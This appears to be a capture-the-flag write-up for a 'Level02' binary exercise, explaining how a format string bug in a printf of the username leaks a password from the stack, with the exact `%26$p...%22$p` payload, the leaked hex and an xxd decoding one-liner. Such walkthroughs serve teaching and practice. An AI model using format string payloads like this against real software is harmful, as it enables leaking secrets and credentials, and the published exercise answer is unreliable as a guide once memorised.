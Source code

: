 # Level02

![](Ressources/img/level02_launch.png)

The program waits our inputs. Let's use [gdb and radare](Ressources/gdb.md) to understand what's going on.

The key vulnerability is the username provided is then printed with `printf`. So we can use the format string attack to print what is on the stack, where the password is stored.

With the format string attack, looking through arguments in the stack we find what looks like a password at arguments 22-26.

Our format string is `%26$p%25$p%24$p%23$p%22$p`

![](Ressources/img/input_format_str.png)

Converted to ASCII, and reversed to revert endian, we find our password from received `0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848`

`echo 0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 | xxd -r -p | rev`

![](Ressources/img/level03.png)
